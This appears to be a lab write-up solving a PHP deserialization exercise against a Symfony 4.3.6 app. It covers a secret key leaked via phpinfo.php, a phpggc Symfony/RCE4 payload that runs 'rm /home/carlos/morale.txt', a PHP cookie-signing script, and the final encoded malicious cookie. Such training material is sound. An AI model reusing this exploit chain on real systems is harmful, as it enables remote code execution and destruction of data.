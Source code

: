 ## Lab Description :

![image](https://github.com/user-attachments/assets/8f9e06a7-5887-49e7-ac45-39254865d268)


## Solution :

Login as wiener & observe that the cookie is a PHP serialized object.

![image](https://github.com/user-attachments/assets/0bc3b081-6329-4720-ad63-8aa67fde3e8a)

From the token we can see that the cookie is signed using **HMAC-SHA1**.

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eWt1aXpqdmcybzBiOTd2dWM1M214d2t0aG5xb2ozMSI7fQ==","sig_hmac_sha1":"2a64f65014ce2c5f34933dccc2da775dcf1355f4"}
```

From the below screenshot we can see that upon changing the cookie value, the application throws a error response revealing `**Symfony Version: 4.3.6**`.

![image](https://github.com/user-attachments/assets/85c6208b-b506-4f70-a0e9-c67a87d05480)

![image](https://github.com/user-attachments/assets/84ef553c-cb3d-4f79-9bf9-3f366c1d9b71)

Performing a GET request to **_/cgi-bin/phpinfo.php_** reveals several key informations like - `SECRET_KEY used for signing cookie is o98amn39pc65359ge8457oqy94sx4ish` , `Linux 28ed5e9f5b8` & other internal file information.

![image](https://github.com/user-attachments/assets/fe2f5218-c85d-4dad-bd9b-a356b116474a)


Since we know the **Symfony version is 4.3.6**, we can check for deserialisation vulnerabilities in that version using **PHPGCC** & create a malicious serialized payload.

![image](https://github.com/user-attachments/assets/03c9d22b-aa9f-422d-b398-ce0bcc86da37)

Now since we know that we need to use `Symfony/RCE4` gadget chain, we can create a payload to delete _morale.txt_ file under carlos's home directory.

```php
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```
Now since we observed that the cookie is signed, we too need to sign this payload generated by phpgcc. For that we can make use of the following script.

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
> Make sure to update the payload generated by phpgcc & secret_key

```bash
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ nano signing_script.php
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ php signing_script.php
 
%7B%22token%22%3A%22O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterdeferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A2%3A%7Bs%3A11%3A%22%2ApoolHash%22%3Bi%3A1%3Bs%3A12%3A%22%2AinnerItem%22%3Bs%3A26%3A%22rm+%2Fhome%2Fcarlos%2Fmorale.txt%22%3B%7D%7Ds%3A53%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterpool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapterpoolHash%22%3Bi%3A1%3Bs%3A58%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdaptersetInnerItem%22%3Bs%3A4%3A%22exec%22%3B%7D%7D%22%2C%22sig_hmac_sha1%22%3A%2282fdabbf5fa7c15a1f455057d72040e5426291dc%22%7D
```

Send the url-encoded token as cookie & observe that the server throws a error & at the same time executes the serialized payload & deletes the morale.txt file.

![image](https://github.com/user-attachments/assets/6488528d-8c02-4915-a9e4-5284db0cd32b)

![image](https://github.com/user-attachments/assets/db1718d1-3663-4844-a59f-7ba1ac188c2c)

